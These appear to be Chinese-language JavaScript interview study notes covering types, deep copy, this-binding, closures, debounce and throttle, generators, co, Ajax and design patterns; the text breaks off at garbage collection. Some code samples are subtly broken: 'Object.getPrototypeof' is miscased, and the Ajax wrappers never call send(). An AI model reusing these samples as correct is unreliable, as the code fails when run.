


- [数据类型](#数据类型)
  
  - [数据类型检测](#数据类型检测)
    - [typeof](#typeof)
    - [instanceof](#instanceof)
    - [比较typeof和instanceof](#比较typeof和instanceof)
    - [Object.prototype.toString](#objectprototypetostring)
  - [深拷贝和浅拷贝](#深拷贝和浅拷贝)
    - [浅拷贝](#浅拷贝)
    - [深拷贝](#深拷贝)
      - [手写浅拷贝](#手写浅拷贝)
      - [手写深拷贝](#手写深拷贝)

- [this](#this)
  
  - [内置函数](#内置函数)
    - [setTimeout](#settimeout)
    - [数组的forEach](#数组的foreach)
    - [div的点击](#div的点击)
  - [优先级](#优先级)

- [原型](#原型)

- [闭包](#闭包)
  
  - [闭包的应用](#闭包的应用)
    - [模拟私有变量](#模拟私有变量)
    - [函数科里化](#函数科里化)

- [防抖节流](#防抖节流)
  
  - [防抖](#防抖)
  - [节流](#节流)

- [异步](#异步)
  
  - [异步发展的四个阶段](#异步发展的四个阶段)
  - [封装Ajax](#封装ajax)
  - [Promise](#promise)

- [设计模式](#设计模式)
  
  - [发布-订阅模式](#发布-订阅模式)
  - [观察者模式](#观察者模式)
  - [区分观察者模式和发布订阅模式](#区分观察者模式和发布订阅模式)
  - [单例模式](#单例模式)

- [垃圾回收](#垃圾回收)
  
  - [JS引擎的垃圾回收策略](#js引擎的垃圾回收策略)
    - [新生代——副垃圾回收器](#新生代副垃圾回收器)
    - [老生代—— 主垃圾回收器](#老生代-主垃圾回收器)
      - [全停顿](#全停顿)

- [附录](#附录)
  
  - [DOM相关](#dom相关)
    
    - [DOM事件流](#dom事件流)
    - [事件对象](#事件对象)
      - [e.currentTarget](#ecurrenttarget)
      - [e.target](#etarget)
      - [e.preventDefault](#epreventdefault)
      - [e.stopPropagation](#estoppropagation)
  
  - [跨域](#跨域)
    
    - [JSONP](#jsonp)
    - [CORS](#cors)
  
  - [浏览器缓存](#浏览器缓存)
  
  - [性能优化](#性能优化)
    
    - [请求](#请求)
      - [精灵图、内嵌的CSS/JS、base64图片](#精灵图内嵌的cssjsbase64图片)
      - [开启gzip](#开启gzip)
    - [CSS 放在文件头部，JavaScript 文件放在底部](#css-放在文件头部javascript-文件放在底部)
    - [域名分片](#域名分片)
    - [静态资源放到CDN](#静态资源放到cdn)
    - [升级HTTP2](#升级http2)
  
  - [网络安全](#网络安全)
    
    - [跨站脚本（Cross Site Scripting，XSS）](#跨站脚本cross-site-scriptingxss)
      
      - [反射型](#反射型)
      - [DOM型](#dom型)
      - [存储型](#存储型)
      - [XSS防护](#xss防护)
        - [参数校验](#参数校验)
        - [字符转义](#字符转义)
    
    - [跨站请求伪造（Cross-site Request Forgery，CSRF/XSRF）](#跨站请求伪造cross-site-request-forgerycsrfxsrf)
      
      - [CSRF 攻击示例](#csrf-攻击示例)
      
      - [CSRF 防御手段](#csrf-防御手段)
        
        ## 数据类型

JavaScript是一门弱类型的动态语言。

> - 弱类型，意味着你不需要告诉 JavaScript 引擎这个或那个变量是什么数据类型，JavaScript 引擎在运行代码的时候自己会计算出来。
> - 动态，意味着你可以使用同一个变量保存不同类型的数据。

**JavaScript的数据类型一共有8种**：

+ undefined
+ null
+ Boolean
+ String
+ Number
+ Symbol
+ BigInt
+ Object
  + Array
  + RegExp
  + Date
  + Math
  + Function

> Number：根据ECMAScript标准，JavaScript中只有一种数字类型，基于IEEE754标准的双精度64位二进制格式的值，-(2^53-1)到2^53-1。
> 
> Undefined：一个没有被赋值的变量会有一个默认值undefined，变量提升时的默认值也是undefined；
> 
> BigInt：JavaScript中一个全新的数字类型，可以用任意精度表示整数。使用BigInt，即使超出Number的安全整数范围限制，也可以安全的存储和操作。
> 
> Symbol：符号类型是唯一的，并且是不可修改的，通常用来作为Object的key。

其中，前 7 种类型为基础类型，最后 1 种（Object）为引用类型，也是需要重点关注的，因为它在日常工作中是使用得最频繁，也是需要关注最多技术细节的数据类型。

而引用数据类型（Object）又分为图上这几种常见的类型：Array - 数组对象、RegExp - 正则对象、Date - 日期对象、Math - 数学函数、Function - 函数对象。

为各种 JavaScript 的数据类型最后都会在初始化之后放在不同的内存中，因此上面的数据类型大致可以分成两类来进行存储：

- 基础类型存储在栈内存，被引用或拷贝时，会创建一个完全相等的变量；
- 引用类型存储在堆内存，存储的是地址，多个引用指向同一个地址——堆内存中的同一个对象。

### 数据类型检测

#### typeof

typeof直接检测数据类型，但是对于引用数据类型，只能判断function，对于其他的都是object

```js
typeof 1 // 'number'
typeof '1' // 'string'
typeof undefined // 'undefined'
typeof true // 'boolean'
typeof Symbol() // 'symbol'
typeof null // 'object'
typeof [] // 'object'
typeof {} // 'object'
typeof console // 'object'
typeof console.log // 'function'
```

前 6 个都是基础数据类型，而为什么第 6 个 null 的 typeof 是 'object' 呢？这里要和你强调一下，虽然 typeof null 会输出 object，但这只是 JS 存在的一个悠久 Bug，不代表 null 就是引用数据类型，并且 null 本身也不是对象。因此，null 在 typeof 之后返回的是有问题的结果，不能作为判断 null 的方法。如果你需要在 if 语句中判断是否为 null，直接通过 ‘===null’来判断就好。

不过这也可以理解，因为值null特指对象的值未设置。null是表示缺少的标识，指示变量未指向任何对象。把null作为尚未创建的对象，也许更好理解。当然null是基础数据类型。

此外还要注意，**引用数据类型 Object，用 typeof 来判断的话，除了 function 会判断为 OK 以外，其余都是 'object'，是无法判断出来的。**

#### instanceof

instanceof用于检测某个实例对象是否是某个构造函数new出来的。

instanceof 运算符用于检测构造函数的 prototype 属性是否出现在某个实例对象的原型链上。或者更直接一点说，使用 instanceof 就是判断一个实例是否是某个构造函数new出来的。

```js
let Car = function() {}
let benz = new Car()
benz instanceof Car // true
let car = new String('Mercedes Benz')
car instanceof String // true
let str = 'Covid-19'
str instanceof String // false
```

实现一个`instanceof`：

```js
function myInstanceof(left, right) {
  // 这里先用typeof来判断基础数据类型，如果是，直接返回false
  if(typeof left !== 'object' || left === null) return false;
  // getProtypeOf是Object对象自带的API，能够拿到参数的原型对象
  let proto = Object.getPrototypeOf(left);
  while(true) { 
      //循环往下寻找，直到找到相同的原型对象
      if(proto === null) return false;
      //找到相同原型对象，返回true
      if(proto === right.prototype) return true;
      // 去找上一层原型对象
      proto = Object.getPrototypeof(proto);
  }
}
```

#### 比较typeof和instanceof

- instanceof 可以准确地判断复杂引用数据类型，但是不能正确判断基础数据类型；
- typeof 可以判断基础数据类型（null 除外），但是引用数据类型中，除了 function 类型以外，其他的也无法判断。

#### Object.prototype.toString

最好的数据检测方法。

toString() 是 Object 的原型方法，调用该方法，可以统一返回格式为 “[object Xxx]” 的字符串，其中 Xxx 就是对象的类型。对于 Object 对象，直接调用 toString() 就能返回 [object Object]；而对于其他对象，则需要通过 call 来调用，才能返回正确的类型信息。

```js
Object.prototype.toString({})       // "[object Object]"
Object.prototype.toString.call({})  // 同上结果，加上call也ok
Object.prototype.toString.call(1)    // "[object Number]"
Object.prototype.toString.call('1')  // "[object String]"
Object.prototype.toString.call(true)  // "[object Boolean]"
Object.prototype.toString.call(function(){})  // "[object Function]"
Object.prototype.toString.call(null)   //"[object Null]"
Object.prototype.toString.call(undefined) //"[object Undefined]"
Object.prototype.toString.call(/123/g)    //"[object RegExp]"
Object.prototype.toString.call(new Date()) //"[object Date]"
Object.prototype.toString.call([])       //"[object Array]"
Object.prototype.toString.call(document)  //"[object HTMLDocument]"
Object.prototype.toString.call(window)   //"[object Window]"
```

### 深拷贝和浅拷贝

#### 浅拷贝

浅拷贝只会分离一层属性，更深的还是会向同一个地址。

```js
/* 对象的拷贝 */
let obj = {a:1,b:{c:1}}
let obj2 = {...obj}
obj.a = 2
console.log(obj)  //{a:2,b:{c:1}} 
console.log(obj2); //{a:1,b:{c:1}}
obj.b.c = 2
console.log(obj)  //{a:2,b:{c:2}} 
console.log(obj2); //{a:1,b:{c:2}}
```

#### 深拷贝

深拷贝在堆内存中完全开辟了一块地址，做到了隔离。

##### 手写浅拷贝

```js
const shallowClone = (target) => {
  if (typeof target === 'object' && target !== null) {
    const cloneTarget = Array.isArray(target) ? []: {};
    for (let prop in target) {
      //hasOwnProperty() 方法会返回一个布尔值，指示对象自身属性中是否具有指定的属性
      //也就是，是否有指定的键。
      if (target.hasOwnProperty(prop)) {
          cloneTarget[prop] = target[prop];
      }
    }
    return cloneTarget;
  } else {
    return target;
  }
}
```

##### 手写深拷贝

> 更好的方法是weakmap

```js
let obj1 = {
  a:{
    b:1
  }
}

function deepClone(obj) { 
  let cloneObj = {}
  for(let key in obj) {                 //遍历
    if(typeof obj[key] ==='object') { 
      cloneObj[key] = deepClone(obj[key])  //是对象就再次调用该函数递归
    } else {
      cloneObj[key] = obj[key]  //基本类型的话直接复制值
    }
  }
  return cloneObj
}
let obj2 = deepClone(obj1);
obj1.a.b = 2;
console.log(obj2);   //  {a:{b:1}}
```

weakmap版本：

```js
const isComplexDataType = obj => (typeof obj === 'object' || typeof obj === 'function') && (obj !== null)
const deepClone = function (obj, hash = new WeakMap()) {
  if (obj.constructor === Date) 
  return new Date(obj)       // 日期对象直接返回一个新的日期对象
  if (obj.constructor === RegExp)
  return new RegExp(obj)     //正则对象直接返回一个新的正则对象
  //如果循环引用了就用 weakMap 来解决
  if (hash.has(obj)) return hash.get(obj)
  let allDesc = Object.getOwnPropertyDescriptors(obj)
  //遍历传入参数所有键的特性
  let cloneObj = Object.create(Object.getPrototypeOf(obj), allDesc)
  //继承原型链
  hash.set(obj, cloneObj)
  for (let key of Reflect.ownKeys(obj)) { 
    cloneObj[key] = (isComplexDataType(obj[key]) && typeof obj[key] !== 'function') ? deepClone(obj[key], hash) : obj[key]
  }
  return cloneObj
}
// 下面是验证代码
let obj = {
  num: 0,
  str: '',
  boolean: true,
  unf: undefined,
  nul: null,
  obj: { name: '我是一个对象', id: 1 },
  arr: [0, 1, 2],
  func: function () { console.log('我是一个函数') },
  date: new Date(0),
  reg: new RegExp('/我是一个正则/ig'),
  [Symbol('1')]: 1,
};
Object.defineProperty(obj, 'innumerable', {
  enumerable: false, value: '不可枚举属性' }
);
obj = Object.create(obj, Object.getOwnPropertyDescriptors(obj))
obj.loop = obj    // 设置loop成循环引用的属性
let cloneObj = deepClone(obj)
cloneObj.arr.push(4)
console.log('obj', obj)
console.log('cloneObj', cloneObj)
```

## this

`this`是执行上下文的一个属性，指向函数被调用时函数的上下文环境。**`this` 是在运行时基于函数的执行环境绑定的**。

`this` 不指向函数自身也不指向函数的词法作用域，**完全取决于函数在哪里被调用**。

```js
// case1
function foo(){
    console.log(this)// window
}
foo() 

// case2
function test1(){
    console.log(this) // window
    test2()
}
function test2(){
    console.log(this) // window
    test3()
}
function test3(){
    console.log(this) // window
}
test1()// 因为都没有进行绑定

// case3
function foo(func){
    func()
}
function bar(){
    console.log(this) // window
}
foo(bar);

// case4
function foo(func){
    func()
}
var obj={
    name:"why",
    bar: function(){
        console.log(this)// window
    }
}
foo(obj.bar) // 调用的位置并没有进行任何绑定

// case5
function foo(){
    console.log(this)// obj
}
var obj={
    name:"why",
    foo:foo
}
obj.foo()

// case6
function foo(){
    console.log(this);// obj1
}
var obj1={
    name:"obj1",
    foo:foo
}
var obj2={
    name:"obj2",
    obj1:obj1
}
obj2.obj1.foo();

// case7
function foo(){
    console.log(this)// window
}
var obj1={
    name:"obj1",
    foo:foo
}
var bar=obj1.foo;
bar()
```

### 内置函数

#### setTimeout

setTimeout中会传入一个函数，这个函数的this通常会指向window

```js
setTimeout(()=>{
    console.log(this) // window
},1000)
```

#### 数组的forEach

```js
var names=["abc","cba","nba"]

names.forEach(function (item){
    console.log(this) // 三次window
})

var names=["abc","cba","nba"]
var obj={name:"xxx"}
names.forEach(function (item){
    console.log(this) // 三次obj
},obj)
```

#### div的点击

```js
var box = document.querySelector(".box")
box.onclick=function(){
    console.log(this) // box对象
}
```

### 优先级

**箭头函数继承外层函数调用的 this 绑定**>**new绑定**> **bind**>**由 call 或者 apply 调用** >**由上下文对象调用绑定到那个上下文对象**>**默认的window**

> 对于默认绑定：在严格模式下绑定到undefined，否则绑定到全局对象。

## 原型

在 JavaScript 中，每个构造函数都拥有一个 **prototype** 属性，它指向构造函数的原型对象，这个原型对象中有一个**construtor** 属性指回构造函数；每个实例都有一个__proto__ 属性，指向构造函数的原型对象。同时该原型对象也有**proto**属性，指向自己的原型对象，直到一个对象的原型对象为null。

1. **当 new 一个函数的时候会创建一个对象，『函数.prototype』 等于 『被创建对象.__proto__』**
2. **一切函数都是由 Function 这个函数创建的，所以『Function.prototype === 被创建的函数.__proto__』**
3. **一切函数的原型对象都是由 Object 这个函数创建的，所以『Object.prototype === 一切函数.prototype.__proto__』**

## 闭包

可以从作用域的角度谈，也可以从函数+自由变量的角度谈。

从函数+自由变量的角度：

闭包就是函数+自由变量，自由变量是指除了全局变量和当前函数内部变量之外的变量。闭包不是函数，闭包是一种语言特性。有的语言不支持闭包，因此他的函数不能访问自由变量。

从作用域的角度：

作用域指的就是变量可以被访问到的范围。作用域链指的是：当在一个函数内部查询一个变量时，会在当前执行上下文中的词法环境中找，若未找到则到引用的外部坏境中找，这就是我们说的作用域链（又叫词法环境链）。



从作用域的角度，闭包就是作用域外界保持了作用域里面的引用。所以引用一直存在，始终是可以抵达的引用，就不会进行垃圾回收。

### 闭包的应用

#### 模拟私有变量

仅在对象内部生效，无法从外部触及，这样的变量，就是私有变量。

> JS 最新的提案已经支持类似private的特性了，用`#`。ts更早就支持包括private、protect等关键字。

```js
// 利用闭包生成IIFE，返回 User 类
const User = (function() {
    // 定义私有变量_password
    let _password
    class User {
        constructor (username, password) {
            // 初始化私有变量_password
            _password = password
            this.username = username
        }
        login() {
            // 这里我们增加一行 console，为了验证 login 里仍可以顺利拿到密码
            console.log(this.username, _password)
            // 使用 fetch 进行登录请求，此处省略
        }
    }
    return User
})()

let user = new User('xxx', 'yyy')
console.log(user.username) // xxx
console.log(user.password) // undefined
console.log(user._password) // undefined
user.login() // xxx,yyy
```

本质上就是用了`IIFE`，把变量用函数作用域保护起来。只要不把私有变量用this绑定到类上就好了，传给自由变量。这样就没办法在类上拿到，但是可以通过作用域链拿到。

#### 函数科里化

柯里化是把接受 n 个参数的 1 个函数改造为只接受 1个参数的 n 个互相嵌套的函数的过程。也就是`f(a,b,c)`会变成 `f(a)(b)(c)`。

```js
// 科里化
function generateName(prefix) {
return function(type) {
    return function (itemName) {
        return prefix + type + itemName
        }
    }
}
// 偏函数 
function generateName(prefix) {
    return function(type, itemName) {
        return prefix + type + itemName
    }
}
```

> 偏函数是说，固定你函数的某一个或几个参数，然后返回一个新的函数（这个函数用于接收剩下的参数）。你有 10 个入参，你可以只固定 2 个入参，然后返回一个需要 8 个入参的函数 ——偏函数应用是不强调 “单参数” 这个概念的。它的目标仅仅是把函数的入参拆解为两部分。

## 防抖节流

一般在react里直接用现成的`npm`包。

### 防抖

以最后一次触发为准。场景：文本输入。

**每次事件被触发时，都去清除之前的旧定时器，然后等待新的定时器**

```js
// fn是我们需要包装的事件回调, delay是每次推迟执行的等待时间
function debounce(fn, delay) {
    // 定时器
    let timer = null
    // 将debounce处理结果当作函数返回
    return function () {
        // 保留调用时的this上下文
        let context = this
        // 保留调用时传入的参数
        let args = arguments
        // 每次事件被触发时，都去清除之前的旧定时器
        if(timer) {
            clearTimeout(timer)
        }
        // 设立新定时器
        timer = setTimeout(function () {
            fn.apply(context, args)
        }, delay)
    }
}
// 用debounce来包装scroll的回调
const better_scroll = debounce(() => console.log('触发了滚动事件'), 1000)
document.addEventListener('scroll', better_scroll)
```

### 节流

以第一次触发为准。场景：获取滚动条位置 scroll

```js
// fn是我们需要包装的事件回调, interval是时间间隔的阈值
function throttle(fn, interval) {
    // last为上一次触发回调的时间
    let last = 0
    // 将throttle处理结果当作函数返回
    return function () {
        // 保留调用时的this上下文
        let context = this
        // 保留调用时传入的参数
        let args = arguments
        // 记录本次触发回调的时间
        let now = new Date()
        // 判断上次触发的时间和本次触发的时间差是否小于时间间隔的阈值
        if (now - last >= interval) {
            // 如果时间间隔大于我们设定的时间间隔阈值，则执行回调
            last = now;
            fn.apply(context, args);
        }
    }
}
// 用throttle来包装scroll的回调
const better_scroll = throttle(() => console.log('触发了滚动事件'), 1000)
document.addEventListener('scroll', better_scroll)
```

## 异步

### 异步发展的四个阶段

JS的异步发展大致经历了四个阶段：回调函数->Promise->Generator->async/await

> 这里说的回调函数，准确的说是通过回调函数实现异步。异步任务执行完，浏览器调用该回调函数，将异步任务的结果作为参数传递给回调函数。

但是回调函数有一个问题就是，回调函数嵌套的层级变多了之后，代码的可读性和可维护性变差。所谓回调地狱。

**promise阶段**

Promise 会接收一个执行器，在这个执行器里，我们需要把目标的异步任务给”填进去“。在 Promise 实例创建后，执行器里的逻辑会立刻执行，在执行的过程中，根据异步返回的结果，决定如何使用resolve 或 reject 来改变 Promise实例的状态。 Promise 实例有三种状态：
• pending 状态，表示进行中。这是 Promise 实例创建后的一个初始态；
• fulfilled 状态，表示成功完成。这是我们在执行器中调用 resolve 后，达成的状态；
• rejected 状态，表示操作失败、被拒绝。这是我们在执行器中调用 reject后，达成的状态。

避免了回调地狱，而是promise的then调用链。

**Generator阶段**

Generator（生成器）是 ES6 的新关键词。通俗来讲 Generator 是一个带星号的“函数”，可以配合 yield 关键字来暂停或者执行函数。

调用 Generator 函数后，该函数并不执行，返回的也不是函数运行结果，而是一个指向内部状态的指针对象，也就是遍历器对象（Iterator Object）。下一步，必须调用遍历器对象的`next`方法，使得指针移向下一个状态。也就是说，每次调用`next`方法，内部指针就从函数头部或上一次停下来的地方开始执行，直到遇到下一个`yield`表达式（或`return`语句）为止。换言之，Generator 函数是分段执行的，`yield`表达式是暂停执行的标记，而`next`方法可以恢复执行。

```js
function* gen() {
  console.log("enter");
  let a = yield 1;
  let b = yield (function () {return 2})();
  return 3;
}
var g = gen()         
console.log(g.next())
console.log(g.next())
console.log(g.next())
console.log(g.next()) 
// output:
// { value: 1, done: false }
// { value: 2, done: false }
// { value: 3, done: true }
// { value: undefined, done: true }
```

+ 调用 gen() 后，程序会阻塞住，不会执行任何语句。
+ 调用 g.next() 后，程序继续执行，直到遇到 yield 关键词时执行暂停。
+ 一直执行 next 方法，最后返回一个对象，其存在两个属性：value 和 done。
  + `done`属性的值`false`，表示遍历还没有结束。
  + `next`方法返回的对象的`value`属性，对于第三次调用就是紧跟在`return`语句后面的表达式的值（如果没有`return`语句，则`value`属性的值为`undefined`），`done`属性的值`true`，表示遍历已经结束。
  + 第四次调用，此时 Generator 函数已经运行完毕，`next`方法返回对象的`value`属性为`undefined`，`done`属性为`true`。以后再调用`next`方法，返回的都是这个值。

> 总结一下，调用 Generator 函数，返回一个遍历器对象，代表 Generator 函数的内部指针。以后，每次调用遍历器对象的`next`方法，就会返回一个有着`value`和`done`两个属性的对象。`value`属性表示当前的内部状态的值，是`yield`表达式后面那个表达式的值；`done`属性是一个布尔值，表示是否遍历结束。

`n`个异步的读取文件操作，写得像同步操作：

```js
var fs = require('fs');
var thunkify = require('thunkify');
var readFileThunk = thunkify(fs.readFile);

var gen = function* (){
  var r1 = yield readFileThunk('./text1.txt');
  console.log(r1.toString(),"r1");
  var r2 = yield readFileThunk('./text2.txt');
  console.log(r2.toString(),"r2");
};
var g = gen();

var r1 = g.next();
r1.value(function (err, data) {// 执行callback
  if (err) throw err;
  // 这个参数可以传入 Generator 函数，作为上个阶段异步任务的返回结果，把data赋给r1
  var r2 = g.next(data);// text1 r1
  r2.value(function (err, data) {
    if (err) throw err;
    g.next(data);// text2 r2
  });
});
```

变量`g`是 Generator 函数的内部指针，表示目前执行到哪一步。`next`方法负责将指针移动到下一步，并返回该步的信息（`value`属性和`done`属性）。

仔细查看上面的代码，可以发现 Generator 函数的执行过程，其实是将同一个回调函数，反复传入`next`方法的`value`属性。这使得我们可以用递归来自动完成这个过程。

```js
function run(fn) {
  var gen = fn();

  function next(err, data) {
    var result = gen.next(data);
    if (result.done) return;
    result.value(next);
  }

  next();
}

function* g() {
  // ...
}

run(g);
//
var g = function* (){
  var f1 = yield readFileThunk('fileA');
  var f2 = yield readFileThunk('fileB');
  // ...
  var fn = yield readFileThunk('fileN');
};

run(g);
```

函数`g`封装了`n`个异步的读取文件操作，只要执行`run`函数，这些操作就会自动完成。这样一来，异步操作不仅可以写得像同步操作，而且一行代码就可以执行。

Thunk 函数并不是 Generator 函数自动执行的唯一方案。因为自动执行的关键是，必须有一种机制，自动控制 Generator 函数的流程，接收和交还程序的执行权。回调函数可以做到这一点，Promise 对象也可以做到这一点。

**co函数库**

```js
// 下面是一个 Generator 函数，用于依次读取两个文件。

var gen = function* () {
  var f1 = yield readFile('/etc/fstab');
  var f2 = yield readFile('/etc/shells');
  console.log(f1.toString());
  console.log(f2.toString());
};
// co 模块可以让你不用编写 Generator 函数的执行器。

var co = require('co');
co(gen);
上面代码中，Generator 函数只要传入co函数，就会自动执行。

// co函数返回一个Promise对象，因此可以用then方法添加回调函数。

co(gen).then(function (){
  console.log('Generator 函数执行完成');
});
// 上面代码中，等到 Generator 函数执行结束，就会输出一行提示。
```

```js
const co = require('co');
let g = gen();
co(g).then(res =>{
  console.log(res);
})
```

这段代码比较简单，几行就完成了之前写的递归的那些操作。

+ 因为 Generator 函数就是一个异步操作的容器，它需要一种自动执行机制，co 函数接受 Generator 函数作为参数，并最后返回一个 Promise 对象。

+ 在返回的 Promise 对象里面，co 先检查参数 gen 是否为 Generator 函数。如果是，就执行该函数；如果不是就返回，并将 Promise 对象的状态改为 resolved。

+ co 将 Generator 函数的内部指针对象的 next 方法，包装成 `onFulfilled` 函数。这主要是为了能够捕捉抛出的错误。

+ 关键的是 next 函数，它会反复调用自身。

**async/await 阶段**

async/await本质上是generate的语法糖，把异步当成同步来写。async/await 和 generator 允许 try/catch。

### 封装Ajax

```js
// 手写原生的Ajax
ajax=(method,url,options)=>{
    const {success,fail}=options;
    const req=new XMLHttpRequest();
    req.open(method,url);
    req.onreadystatechange=()=>{
        if(req.readyState===4){
            if(req.status<400){
                success.call(null,req.response)
            }else{
                fail.call(null,req,req,status)
            }
        }
    }
}

ajax("GET","/xxx",{
    success:()=>{},
    fail:()=>{}
})

// promise版本
ajax=(method,url)=>{
    return new Promise((resolve,reject)=>{
        const req=new XMLHttpRequest();
        req.open(method,url);
        req.onreadystatechange=()=>{
            if (req.readyState===4) {
                if(req.status<400){
                    resolve(JSON.parse(req.response))
                }else{
                    reject(req.status)
                }
            }
        }
    })
}
//promise规定成功回调和失败回调只能接受一个参数
ajax("GET","/xxx").then((res)=>{console.log(res);},(status)=>{console.log(status);})
```

### Promise

JS 异步解决方案的发展历程以及优缺点。

+ 回调函数（callback）
  优点：解决了同步的问题（只要有一个任务耗时很长，后面的任务都必须排队等着，会拖延整个程序的执行。）
  缺点：回调地狱，不能用try catch 捕获错误，不能return
+ Promise
  优点：解决了回调地狱的问题
  缺点：无法取消Promise ，错误需要通过回调函数来捕获
+ Generator
  特点：可以控制函数的执行，可以配合co 函数库使用
+ async/await
  优点：代码清晰，不用像Promise 写一大堆then 链，处理了回调地狱的问题
  缺点：await 将异步代码改造成同步代码，如果多个异步操作没有依赖性而使用await 会导致性能上的降低。

各种手写

## 设计模式

五大原则、23种设计模式。

### 发布-订阅模式

实现一个 EventEmitter：

1. 创建一个 EventEmitter，承担全局事件总线功能
2. 实现 on 事件监听方法
3. 实现 emit 事件订阅方法

```js
class EventEmitter {
    constructor() {
        // handlers是一个map，用于存储事件与回调之间的对应关系
        this.handlers = {}
    }
    // on方法用于安装事件监听器，它接受目标事件名和回调函数作为参数
    on(eventName, cb) {
        // 先检查一下目标事件名有没有对应的监听函数队列
        if (!this.handlers[eventName]) {
        // 如果没有，那么首先初始化一个监听函数队列
        this.handlers[eventName] = []
        }
        // 把回调函数推入目标事件的监听函数队列里去
        this.handlers[eventName].push(cb)
    }
    // emit方法用于触发目标事件，它接受事件名和监听函数入参作为参数
    emit(eventName, ...args) {
        // 检查目标事件是否有监听函数队列
        if (this.handlers[eventName]) {
            // 如果有，则逐个调用队列里的回调函数
            this.handlers[eventName].forEach((callback) => {
                callback(...args)
            })
        }
    }
    // 移除订阅
    off(eventName, cb){
        if(this.handlers[eventName]){
            this.handlers[eventName].splice(this.handlers[eventName].indexOf(cb),1)
        }
    }
}
```

### 观察者模式

```js
// 发布者类
class Publish {
    constructor(){
        this.observers=[];
    }
    // 添加观察者
    add(observer){
        this.observers.push(observer)
    }
    // 移除观察者
    remove(observer){
        this.observers.splice( this.observers.indexOf(observer), 1)
    }
    // 通知所有观察者
    notify(){
        this.observers.forEach((item)=>{
            item.update()
        })
    }
}

// 观察者类
class Observer {
    update(){
        //...
    }
}
```

### 区分观察者模式和发布订阅模式

一般来讲发布订阅者模式会有一个全局的事件总线，作为发布、订阅任务的调度中心；会维护一个hashmap，事件名作为key，订阅事件的回调函数构成的数组作为value。

观察者模式中去掉了事件总线的概念，发布者和观察者直连，观察者订阅发布者，发布者发生改变也会通知观察者。

### 单例模式

单例模式相对比较好理解，它要求我们**保证一个类仅有一个实例，并提供一个访问它的全局访问点**。

比如：

1. **实例化一个全局唯一的元素，确保样式一致**。比如说全局唯一的 Alert、全局唯一的 Modal 等等。

2. 实例化一个全局唯一的类。比如说上文提及的全局事件总线：一个上下文里只能有一个全局时间总线，否则就
   不叫“总线”了。

```js
// 实现单例模式的思路就是闭包

// html部分
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>单例模式</title>
</head>
<style>
#modal {
    height: 300px;
    width: 300px;
    line-height: 300px;
    position: fixed;
    left: 50%;
    top: 50%;
    transform: translate(-50%, -50%);
    border: 1px solid red;
    text-align: center;
}
</style>
<body>
<button id='open'>打开 Modal 弹层</button>
<button id='close'>关闭 Modal 弹层</button>
</body>

// js部分

// 点击打开按钮展示模态框
document.getElementById('open').addEventListener('click', function() {
    // 未点击则不创建modal实例，避免不必要的内存占用;此处不用 new Modal 的形式调用也可以，和 Storage 同理
    const modal = createModal()
    modal.style.display = 'block'
})
// 点击关闭按钮隐藏模态框
document.getElementById('close').addEventListener('click', function() {
    const modal = createModal()
    if(modal) {
        modal.style.display = 'none'
    }
})
// 核心逻辑，这里采用了闭包思路来实现单例模式
const createModal = (function() {
    let modal = null
    return function() {
        if(!modal) {
            modal = document.createElement('div')
            modal.innerHTML = 'Modal模态框，全局唯一'
            modal.id = 'modal'
            modal.style.display = 'none'
            document.body.appendChild(modal)
        }
        return modal
    }
})()
```

## 垃圾回收

JavaScript 中的垃圾收集策略有标记清除（最常用），引用计数（不太常见）

- 标记清除：在运行时给存储在内存中的所有变量都加上标记，将环境中的及被环境引用的变量去除标记，最后删除带标记的变量
- 引用计数：跟踪每个值被引用的次数。但它无法处理循环引用的问题（现代浏览器基本已放弃此种策略）

### JS引擎的垃圾回收策略

对于栈内存来讲，**当一个函数执行结束之后，JavaScript 引擎会通过向下移动 ESP 来销毁该函数保存在栈中的执行上下文。** 所谓ESP就是记录当前活动状态的指针。

对于堆内存：

**V8 分别使用两个不同的垃圾回收器，以便更高效地实施垃圾回收。**

- 副垃圾回收器，主要负责新生代的垃圾回收。
- 主垃圾回收器，主要负责老生代的垃圾回收。

#### 新生代——副垃圾回收器

